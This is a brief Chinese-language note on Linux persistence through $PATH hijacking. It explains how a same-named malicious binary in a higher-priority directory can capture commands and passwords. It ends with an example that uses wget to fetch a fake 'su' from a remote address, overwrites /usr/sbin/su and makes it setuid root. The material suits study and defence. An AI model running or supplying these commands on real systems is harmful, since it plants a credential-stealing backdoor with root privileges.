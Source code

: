 $PATH定义了命令加载时优先进行检索的目录，攻击者可以通过向$PATH内高优先级的目录下部署同名的恶意文件实现劫持低优先级目录命令的效果。

想要实现对$PATH的持久化篡改往往依赖于篡改登录执行文件（如/etc/profile）。

$PATH常被用于窃取密码，复制传染，部署应用层rootkit等功能。

```shell
root@walrus:~# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
root@walrus:~# su walrus
walrus@walrus:/root$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
```

例如：
```shell
#https://github.com/aplyc1a/toolkits/tree/master/0x04 持续控制/Linux/fake命令后门
wget http://10.1.1.1:12345/fake_su -O /usr/sbin/su
chown root:root /usr/sbin/su && chmod 4755 /usr/sbin/su
```

